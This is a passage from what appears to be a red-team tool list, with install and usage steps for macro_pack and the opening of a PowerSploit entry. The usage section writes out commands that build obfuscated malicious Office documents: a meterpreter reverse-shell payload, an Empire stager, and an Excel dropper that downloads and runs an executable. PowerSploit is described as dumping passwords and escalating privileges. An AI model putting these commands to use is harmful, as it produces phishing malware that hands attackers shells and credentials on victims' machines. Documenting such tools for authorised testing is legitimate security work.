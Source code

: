 1. Get the latest binary from [https://github.com/sevagas/macro_pack/releases/](https://github.com/sevagas/macro_pack/releases/)
2. Download binary on PC with genuine Microsoft Office installed.
3. Open console, CD to binary dir and call the binary

**Install: (Git)** 

```bash
git clone https://github.com/sevagas/macro_pack.git
cd macro_pack
pip3 install -r requirements.txt
```

**Usage:** 

```bash
# Help Page
python3 macro_pack.py  --help

# List all supported file formats
macro_pack.exe --listformats
# Obfuscate the vba file generated by msfvenom and puts result in a new VBA file.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G meterobf.vba

# Obfuscate Empire stager VBA file and generate a MS Word document:
macro_pack.exe -f empire.vba -o -G myDoc.docm

# Generate an MS Excel file containing an obfuscated dropper (download payload.exe and store as dropped.exe)
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -G "drop.xlsm" 

# Execute calc.exe via Dynamic Data Exchange (DDE) attack
echo calc.exe | macro_pack.exe --dde -G calc.xslx
```

![image](https://user-images.githubusercontent.com/100603074/209868800-7fbcfdec-8ae8-4693-8438-feebc2309667.png)

### [🔙](#tool-list)[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

A collection of PowerShell scripts and modules that can be used to achieve a variety of red teaming objectives.

Some of the features of PowerSploit:

- Dump password hashes and extract clear-text passwords from memory
- Escalate privileges and bypass security controls
- Execute arbitrary PowerShell code and bypass execution restrictions
- Perform network reconnaissance and discovery
- Generate payloads and execute exploits

**Install:** *1. Save to PowerShell modules folder*

First you will need to download the [PowerSploit Folder](https://github.com/PowerShellMafia/PowerSploit) and save it to your PowerShell modules folder.
